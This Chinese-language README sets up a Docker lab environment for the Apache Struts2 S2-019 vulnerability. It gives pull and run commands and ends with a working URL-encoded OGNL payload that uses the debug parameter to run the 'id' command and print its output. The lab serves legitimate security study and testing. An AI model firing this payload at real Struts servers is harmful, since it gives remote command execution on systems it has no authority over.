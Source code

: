 ## Struts2 S2-019 漏洞环境

### 漏洞信息

 * [S2-019 公告](http://struts.apache.org/docs/s2-019.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-019
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-019
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27id%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28%27dbapp%3A%27%2bnew%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A
```

![](s2-019-1.png)
